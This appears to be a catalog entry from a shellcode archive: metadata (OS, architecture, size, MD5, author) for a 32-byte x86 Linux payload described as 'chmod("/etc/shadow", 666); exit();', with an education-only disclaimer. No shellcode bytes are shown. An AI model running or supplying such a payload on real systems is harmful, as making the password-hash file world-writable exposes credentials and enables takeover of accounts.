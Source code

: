 Description
-----------
chmod("/etc/shadow", 666); exit();

OS
--
Linux

Arch
----
x86

Size
----
32 bytes

MD5
---
20f5b12240eaa55d50cf93b7169d151c

Author
------
noptrix

Disclaimer
----------
We hereby emphasize, that the hacking related stuff on
[nullsecurity.net](http://nullsecurity.net) is only for education purposes.
We are not responsible for any damages. You are responsible for your own
actions.
